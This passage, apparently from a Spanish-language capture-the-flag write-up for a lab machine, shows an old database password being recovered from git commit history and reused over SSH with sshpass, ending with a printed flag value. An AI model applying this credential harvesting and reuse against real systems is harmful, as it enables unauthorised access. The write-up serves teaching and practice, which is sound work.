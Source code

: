 Existe un directorio **`.git`** por lo que vamos a proceder a revisarlo.

```console
p3ntest1ng:~$ git log
commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

commit e4e214696159a25c69812571c8214d2bf8736a3f
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:33:54 2021 +0000

    init
```

Vemos que al parecer se ha modificado el archivo **`db_conn.php`**, comprobemos esto.

```console
p3ntest1ng:~$ git log -p -2
commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

diff --git a/db_conn.php b/db_conn.php
index f1c9217..5397ffa 100644
--- a/db_conn.php
+++ b/db_conn.php
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');

commit e4e214696159a25c69812571c8214d2bf8736a3f
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:33:54 2021 +0000

    init
...[snip]...
```

¡Bingo!, pues efectivamente se modificó el archivo **`db_conn.php`** para cambiar la contraseña **`S3cr3t_unGu3ss4bl3_p422w0Rd`** por **`4_V3Ry_l0000n9_p422w0rd`** (esta la habíamos obtenido anteriormente analizando el archivo db_conn.php en producción).
En este punto, se me ocurre intentar utilizar esta contraseña para acceder por SSH, pues es probable que haya reutilización de la misma.

```console
p3ntest1ng:~$ sshpass -p "S3cr3t_unGu3ss4bl3_p422w0Rd" ssh aaron@timing.htb
...[snip]...
aaron@timing:~$ ls
user.txt
aaron@timing:~$ cat user.txt 
0107329a9b3fd591ce43ff7fb9f84742
```
